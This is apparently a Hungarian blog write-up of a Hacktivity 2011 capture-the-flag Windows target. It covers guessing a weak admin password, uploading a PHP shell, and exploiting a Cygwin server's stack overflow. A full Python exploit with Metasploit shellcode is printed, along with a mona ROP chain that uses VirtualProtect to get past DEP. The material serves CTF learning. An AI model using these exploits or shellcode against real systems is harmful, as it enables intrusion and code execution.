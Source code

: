 Hacktivity 2011 CtF leírás - 2. rész (Firefly)
=============================================

Eredeti publikálás dátuma: 2011-09-22 16:52:54
(bocs a hiányzó screenshotokért, sehol nem találom őket)


Terveimmel ellentétben a CtF beszámoló második része mégsem az OpenBSD-s, hanem a Windows-os rendszerről fog szólni. A versenyen ezt sem tudtuk befejezni, kb. a verseny vége előtt 10 perccel lett kész az első exploit-kezdemény - ami ugye a legritkább esetben szokott jól működni -, így ezt is otthon fejeztem be.

Portscannel találtunk egy nyitott 1337-es portot, amin egy olyan szolgáltatás figyelt, ami bármilyen inputra visszaküldött egy szöveget, melyben üdvözölt minket a paradicsomban :) Kiderült továbbá, hogy a célpont gép 8080-as portján egy webszerver figyel, ám böngészővel megnyitva kiderült, hogy semmi sincs az oldalon. Illetve úgy tűnt, hogy semmi sincs rajt. Aztán persze DirBuster hamar megmondta, hogy van egy login/login.php script, ahol [Baby Firefly](http://headhuntershorrorhouse.wikia.com/wiki/Baby_Firefly) mellett egy usernév/jelszó párost váró formot láthattunk.

A szervezőktől még korábban azt az infót kaptuk, hogy bár a bruteforce tilos a szabályok szerint, rövid szólistákat használhatunk. Hát ilyenekbol többet is kipróbáltunk, sajátot is gyártottunk a House of 1000 Corpses film szereplőiből, stb., de csak nem sikerült megtalálni a helyes accountot.

Később kaptunk segítséget, megtudtuk, hogy a felhasználónév admin, a jelszó pedig nyolc karakter. Innen már viszonylag hamar meglett a jelszó: admin123 :D És ez nem volt benne egyik szólistában sem. Ciki.

A megtalált felhasználónévvel, jelszóval bejelentkezve egy újabb formot találtunk, ami fájlok feltöltését tette lehetové. Azt, hogy hová tölti fel a fájlokat, nem közölte a rendszer, de hamar megtaláltuk a login/uploads mappát. Innen egy PHP shellt feltöltve, és megkeresve a proof.txt-t, be is zsebeltük a felhasználói szintért járó pontokat.

A korábban említett szervert is megtaláltuk a C:\\cygwin\\usr\\bin\\server útvonalon. Ezt le is töltöttük, próbáltuk fuzzolni, de nem jutottunk vele sokra. Mivel a dumb fuzzing nem vezetett eredményre, segítségül hívtuk IDA-t. Kiderült, hogy a küldött buffer első négy bájtja fontos: az első háromnak "976"-nak kell lennie:

![ida magic number](img/windows/magic.png)

Ha ez teljesül, meghívódik egy memcpy, amivel buffer overflow-t lehet előidézni. A negyedik byte azért fontos, mert ennek a ~~háromszorosa~~ nyolcszorosa a memcpy utolsó paramétere, azaz a másolt buffer mérete.

![memcpy](img/windows/memcpy.png)

Az exploit-írás későbbi szakaszában kiderült, hogy a negyedik byte legnagyobb értéke 0x7c lehet, ezzel a hasznos teher mérete kb. 700 byte-ban maximalizálódik.

A buffer overflow-tól nem száll el a program, mert ez egy cygwin-es bináris, a cygwinnek meg van egy saját exception handlere, ami megfogja az exceptiont, és csinál egy stackdump-ot. A stack dumpból látszott, hogy itt is direkt EIP felülírásról van szó, amit tök simán ki lehet használni. Nem rémlik, hogy a célpont operációs rendszer mi is volt pontosan, Windows 7, vagy Server 2008\. Ez fontos, mert előbbi esetben, ha alapbeállításokkal megy a rendszer\*, triviális a hiba kihasználása, utóbbi esetben azért kicsit kell vele mókolni.

\* ezt persze kétlem, így túl egyszerű lett volna a feladat, de azért leírom ezt az utat is.

Miért triviális a hiba kihasználása Windows 7 esetén? Egyrészt ezen a rendszeren a DEP alapértelmezetten OptIn módban van, azaz csak a rendszerkomponensek, illetve azok a programok védettek, amelyekre ezt külön kértük.

Szóval DEP kipipálva, mi van az ASLR-rel? Egyszerű, sem a cygwin1.dll, sem a server.exe nincs /DYNAMICBASE-zel linkelve, így ők mindig ugyanott lesznek a memóriában, tehát ha valamelyikben van egy JMP ESP, vagy vele ekvivalens utasítás(sorozat), már jók vagyunk.

![server.exe cygwin1.dll aslr](img/windows/aslr.png)

A cygwin1.dll-ben három PUSH ESP # RET is van, az egyiket felhasználva hamar összedobható egy működő exploit:

```
#!/usr/bin/env python

import socket
import time
import struct
import string

magic = "976";
length = "\\x7c"
padding1 = "A" * 88;

eip = struct.pack(';lt&L', 0x610b79a5)	# PUSH ESP # RET
nopsled = "\\x90" * 100

#
# windows/exec - 196 bytes
# http://www.metasploit.com
# EXITFUNC=process, CMD=calc, VERBOSE=false
#
payload = (
"\\xfc\\xe8\\x89\\x00\\x00\\x00\\x60\\x89\\xe5\\x31\\xd2\\x64\\x8b\\x52\\x30"
"\\x8b\\x52\\x0c\\x8b\\x52\\x14\\x8b\\x72\\x28\\x0f\\xb7\\x4a\\x26\\x31\\xff"
"\\x31\\xc0\\xac\\x3c\\x61\\x7c\\x02\\x2c\\x20\\xc1\\xcf\\x0d\\x01\\xc7\\xe2"
"\\xf0\\x52\\x57\\x8b\\x52\\x10\\x8b\\x42\\x3c\\x01\\xd0\\x8b\\x40\\x78\\x85"
"\\xc0\\x74\\x4a\\x01\\xd0\\x50\\x8b\\x48\\x18\\x8b\\x58\\x20\\x01\\xd3\\xe3"
"\\x3c\\x49\\x8b\\x34\\x8b\\x01\\xd6\\x31\\xff\\x31\\xc0\\xac\\xc1\\xcf\\x0d"
"\\x01\\xc7\\x38\\xe0\\x75\\xf4\\x03\\x7d\\xf8\\x3b\\x7d\\x24\\x75\\xe2\\x58"
"\\x8b\\x58\\x24\\x01\\xd3\\x66\\x8b\\x0c\\x4b\\x8b\\x58\\x1c\\x01\\xd3\\x8b"
"\\x04\\x8b\\x01\\xd0\\x89\\x44\\x24\\x24\\x5b\\x5b\\x61\\x59\\x5a\\x51\\xff"
"\\xe0\\x58\\x5f\\x5a\\x8b\\x12\\xeb\\x86\\x5d\\x6a\\x01\\x8d\\x85\\xb9\\x00"
"\\x00\\x00\\x50\\x68\\x31\\x8b\\x6f\\x87\\xff\\xd5\\xbb\\xf0\\xb5\\xa2\\x56"
"\\x68\\xa6\\x95\\xbd\\x9d\\xff\\xd5\\x3c\\x06\\x7c\\x0a\\x80\\xfb\\xe0\\x75"
"\\x05\\xbb\\x47\\x13\\x72\\x6f\\x6a\\x00\\x53\\xff\\xd5\\x63\\x61\\x6c\\x63"
"\\x00")

buffer = magic + length + padding1 + eip + nopsled + payload;

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect(('localhost', 1337))
s.send(buffer)
s.close()
```

Apró megjegyzés: a szerveren futó exe stack dumpjából kiderül a stack címe az elszállás pillanatában, ezért akár el is hagyható a JMP ESP, lehet direkt stack címre ugrani. Ez ugye alapesetben ellenjavallt, azonban így, hogy az exploit ennyire specifikus (csak egy gépre, egy futás erejéig kell használni), illetve ismerjük a stack címét a célgépen, megbocsátható :D

OK, mi a helyzet akkor, ha a program DEP által védett? Egyszerű: ROP-ot kell használni. Első körben kipatcheltem az exe-ből a forkot az egyszerűbb debugolás érdekében.

![patch](img/windows/patch.png)

Miután ezzel megvoltam, ráeresztettem a mona-t az exe-re. Ezt a ROP láncot generálta:

```
rop_gadgets = 
[
	0x61006aa4,	# POP EAX # RETN [cygwin1.dll] 
	0x61240910,	# ptr to &VirtualProtect() [IAT cygwin1.dll]
	0x610d2b05,	# MOV EAX,DWORD PTR DS:[EAX] # RETN [cygwin1.dll] 
	0x6114ea3a,	# XCHG EAX,ESI # RETN [cygwin1.dll] 
	0x61094000,	# POP EBP # RETN [cygwin1.dll] 
	0x610b79a5,	# & push esp #  ret  [cygwin1.dll]
	0x61043c03,	# POP EBX # RETN [cygwin1.dll] 
	0x00000201,	# 0x00000201-> ebx
	0x6104a0d8,	# POP EDX # XOR ECX,ECX # ADD ESP,20 \\
 # MOV EAX,ECX # POP EBX # POP ESI \\
# POP EDI # RETN [cygwin1.dll] 
	0x00000040,	# 0x00000040-> edx
	0x41414141,	# Filler (compensate)
	0x41414141,	# Filler (compensate)
	0x41414141,	# Filler (compensate)
	0x41414141,	# Filler (compensate)
	0x41414141,	# Filler (compensate)
	0x41414141,	# Filler (compensate)
	0x41414141,	# Filler (compensate)
	0x41414141,	# Filler (compensate)
	0x41414141,	# Filler (compensate)
	0x41414141,	# Filler (compensate)
	0x41414141,	# Filler (compensate)
	0x61006aa4,	# POP EAX # RETN [cygwin1.dll] 
	0x61240000,	# &Writable location [cygwin1.dll]
	0x61096f7b,	# XCHG EAX,ECX # RETN [cygwin1.dll] 
	0x6104f400,	# POP EDI # RETN [cygwin1.dll] 
	0x6103ac02,	# RETN (ROP NOP) [cygwin1.dll]
	0x61006aa4,	# POP EAX # RETN [cygwin1.dll] 
	0x90909090,	# nop
	0x61018938,	# PUSHAD # RETN [cygwin1.dll] 
# rop chain generated with mona.py
# note : this chain may not work out of the box
# you may have to change order or fix some gadgets,
# but it should give you a head start
].pack("V*")
```

Ez a lánc a belepakolja a regiszterekbe a VirtualProtect paramétereit, csinál egy PUSHAD-ot, majd meghívja a VirtualProtect-et, futtathatóvá téve a stackot. Csakhogy, mint általában, ezen is kell módosítani, így nem működik. Egyrészt az ESI regiszterbe rossz érték (0x41414141) kerül, pedig itt egy VirtualProtect hívás címének kellene lennie. Az ESI-ben lévo érték láthatóan valamelyik "Filler" sorból származik. Ezeket különböző értékűre átírva könnyen kiderül, hogy melyik helyre kell írni a címet.

A VirtualProtect-nek megadott dwSize paraméter sem jó, hiszen túl nagy érték. Ezen is könnyen segíthetünk az előbb leírt módon.

Harmadik - legnagyobb, legtöbb szívást okozó - probléma az, hogy a mona által talált VirtualProtect nem egy VirtualProtect, hanem egy VirtualProtectEx. Ennek a függvénynek egyel több argumentuma van, mint a sima VirtualProtect-nek, így a láncban kialakított stack nem megfelelő hozzá. Mikor rájöttem, hogy ez a probléma, már könnyű volt orvosolni: csak kellett keresni egy címet az exe-ben, vagy a cygwin1.dll-ben, ami egy VirtualProtect hívásra mutat. Ebben az OllyDbg Find -> All intermodular calls menüpontja volt segítségemre.

A fent említett változásokkal már simán működött a sploit. A kész változat ezen a linkek található Metasploit modulként:

 - [paradise.rb](files/windows/paradise.rb)

Az exploitot valamilyen remote shell payloaddal meghívva lett volna egy shellünk, ami a server.exe-t futtató felhasználó jogaival fut. Azt, hogy innen hogyan tudtunk volna továbblépni, és megszerezni az Administrator proof.txt-jét, csak a szervezők tudják megmondani :)
